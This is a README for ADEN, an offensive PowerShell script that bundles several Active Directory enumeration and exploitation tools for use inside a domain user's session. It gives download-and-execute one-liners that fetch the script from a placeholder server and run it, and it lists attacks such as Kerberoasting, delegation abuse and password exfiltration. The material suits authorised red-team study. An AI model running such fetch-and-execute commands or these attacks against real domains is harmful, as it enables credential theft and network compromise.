 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session.\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
If you are not a local admin in the domain, the function ```Invoke-FullEnum``` is the recommended option as it will launch a full enumeration that will allow you to map the environment.\
\
From a local admin user, the function ```Invoke-AdminEnum``` is recommended as it will launch only the relevant enumeration checks for local admins.
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-AdminEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

## What does it do?

ADEN currently supports the following attack scenarios:

- ASREPRoasting / Kerberoasting
- Unconstrained / Constrained / Resource Based Delegations
- Linked MSSQL Instances Abuse
- DACL Abuse
- Local Admin Access
- GPP / LAPS / LDAP Password exfiltration

